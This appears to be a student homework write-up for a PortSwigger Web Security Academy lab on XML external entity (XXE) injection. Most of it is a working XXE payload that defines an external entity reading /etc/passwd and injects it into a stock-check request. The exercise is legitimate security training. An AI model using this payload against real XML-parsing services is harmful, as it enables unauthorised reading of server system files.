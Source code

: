 # HOMEWORK 7. Attack to server. Part 1

## Task 1. XXE attack

The solution of the [lab](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files) is presented below:

![alt text](xxe.png)

The malicious payload allowed to get content of `/etc/passwd`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
